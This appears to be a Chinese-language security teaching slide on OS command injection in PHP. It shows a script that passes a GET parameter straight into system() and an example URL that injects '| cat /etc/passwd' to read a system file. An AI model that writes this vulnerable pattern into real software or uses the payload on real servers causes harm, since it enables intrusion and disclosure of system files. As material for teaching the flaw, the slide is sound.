

System注入攻击
上传文件ex1.php
$dir = $_GET["dir"];
	if (isset($dir))
	{
       	 echo "<pre>";
        	system("ls -al ".$dir);
        	echo "</pre>";
	}
http://www.sectop.com/ex1.php?dir=| cat /etc/passwd
命令变成了 system("ls -al | cat /etc/passwd");